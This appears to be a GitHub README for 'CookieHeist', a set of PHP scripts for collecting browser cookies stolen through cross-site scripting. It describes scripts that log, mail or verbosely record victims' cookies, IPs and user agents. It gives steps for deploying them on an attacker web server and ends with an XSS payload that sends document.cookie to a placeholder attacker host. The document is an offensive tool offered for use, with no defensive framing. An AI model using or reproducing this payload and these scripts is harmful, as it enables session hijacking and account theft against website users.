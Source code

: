 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to cookielog.txt. 

2. Cookiesteal-simple-v2.php - Records whatever "c" parameter holds, writes value to cookielog.txt and redirects to Google.com.

3. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

4. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the remote attacker machine, start the webserver (Apache2 in example):

sudo service apache2 start

2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine


git clone https://github.com/RxSec/CookieHeist


cd CookieHeist


sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/


sudo scp cookielog.txt username@AttackMachine:/var/www/html/


Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie

XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
